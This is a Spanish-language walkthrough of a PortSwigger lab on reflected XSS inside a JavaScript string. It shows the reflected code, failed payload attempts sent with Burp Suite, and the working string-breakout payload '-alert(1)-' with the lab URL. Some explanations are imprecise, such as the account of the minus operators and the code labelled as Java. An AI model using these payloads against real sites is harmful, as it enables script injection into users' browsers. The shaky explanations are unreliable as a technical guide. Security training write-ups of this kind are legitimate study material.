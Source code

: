 This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality where angle brackets are encoded. The reflection occurs inside a JavaScript string. To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the `alert` function.

Ejecutamos una query basica para ver como interactua la pagina con el XSS no prompea el XSS; esto se debe a que los angle brackets `<>` se encodean
![[Pasted image 20250219130053.png]]

Pruebo con la cadena `test` y observo en donde se refleja en el codigo
![[Pasted image 20250219130409.png]]
podemos observar que la entrada del usuario (el parámetro `search`) está siendo reflejada dentro de una cadena de JavaScript. Esto lo vemos en la siguiente línea:
```java
var searchTerms = 'test';
document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
```

El parámetro `search` se refleja dentro de una cadena de JavaScript:
```java
var searchTerms = 'USER_INPUT';
```

Luego, este valor se utiliza en un `document.write()`:
```java
document.write('<img src="/resources/images/tracker.gif?searchTerms=' + encodeURIComponent(searchTerms) + '">');
```

Para explotar esta vulnerabilidad, necesitamos:

1. Romper la cadena de JavaScript.
2. Insertar nuestro código malicioso.
3. Evitar errores de sintaxis.

Un payload básico podría ser:
```java
"; alert(1); //
```
- `";` cierra la cadena actual y finaliza la instrucción `var searchTerms`.
- `alert(1);` ejecuta el código malicioso.
- `//` comenta cualquier código restante para evitar errores de sintaxis.

Dado que el valor de `searchTerms` pasa por `encodeURIComponent()`, necesitamos asegurarnos de que nuestro payload no sea dañado durante este proceso. Por suerte, `encodeURIComponent()` no afecta caracteres como `;`, `(`, `)`, o `/`

Pero no triggerea
![[Pasted image 20250219130725.png]]
el XSS no se está ejecutando. Esto podría deberse a uno de los siguientes motivos:

1. **Los caracteres especiales están siendo escapados o neutralizados** :
    
    - Aunque el payload se refleja en el código JavaScript, es posible que el navegador esté tratando de interpretar el código de manera segura y evite su ejecución.
2. **El contexto del script no permite la ejecución directa del payload** :
    
    - Aunque rompimos la cadena con `";`, el resto del código (`alert(1); //`) puede no estar siendo interpretado como JavaScript debido al uso de `document.write()` y la codificación de ciertos caracteres.


abro burpsuite y hago las siguientes comprobaciones:

1 ./ Mando 'test'
```java
                       var searchTerms = 'test';
                        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
                    </script>
```
2 ./ mando ;'random'
	Aqui observamos que el "random" se ha escapado al var
```java
                        var searchTerms = ';'random'';
                        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
                    </script>
```

3 ./ mando `GET /?search=;'<script>alert()</script>' HTTP/2`
```java
                   <script>
                        var searchTerms = ';'&lt;script&gt;alert()&lt;/script&gt;'';
                        document.write(
```
Encodea las strings ; pero realmente como ya estamos dentro de una etiqueta script bastaria con mandar alert(1)

4 ./ mando `GET /?search=;'alert(1)' HTTP/2`
```java
                   <script>
                        var searchTerms = ';'alert(1)'';
                        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
                    </script>
                    <section class="blog-list no-results">
                        <div class=is-linkback>
        <a href="/">Back to Blog
```

No se triggerea pero el alert esta escapado
- El payload `alert(1)` está siendo encapsulado entre comillas simples (`''`) dentro de la variable `searchTerms`.
- Sin embargo, debido a la sintaxis incorrecta (`'alert(1)'`), el navegador interpreta esto como una cadena literal y no como código ejecutable.
- Como resultado, el código `alert(1)` no se ejecuta porque sigue siendo parte de una cadena y no se rompe el contexto.

## XSS
El xss se trigerea de la siguiente forma
mando : `GET /?search='-alert(1)-' HTTP/2` 
```java
var searchTerms = ''-alert(1)-'';
document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
```
- En este caso, el payload `-alert(1)-` también está encapsulado entre comillas simples (`''`).
- Sin embargo, cuando el navegador evalúa esta cadena, la estructura `-alert(1)-` permite que el motor de JavaScript interprete `alert(1)` como una expresión válida.
- Esto ocurre porque el guion (`-`) antes y después de `alert(1)` cambia la forma en que el navegador interpreta la sintaxis:
    - El primer guion (`-`) se interpreta como un operador unario.
    - Luego, `alert(1)` se ejecuta como una función.
    - Finalmente, el segundo guion (`-`) también se interpreta como un operador unario, pero no afecta la ejecución de `alert(1)`.

```http
https://0a9800f30447ba8881f82fd500ad003e.web-security-academy.net/?search=%27-alert%281%29-%27
```

![[Pasted image 20250219132818.png]]
- **Comportamiento del operador unario `-`** :
    
    - El guion (`-`) antes de `alert(1)` no genera un error porque JavaScript permite el uso de operadores unarios en ciertos contextos.
    - Aunque el resultado numérico de `-(undefined)` no tiene sentido, el motor de JavaScript aún ejecuta la función `alert(1)` antes de intentar realizar la operación.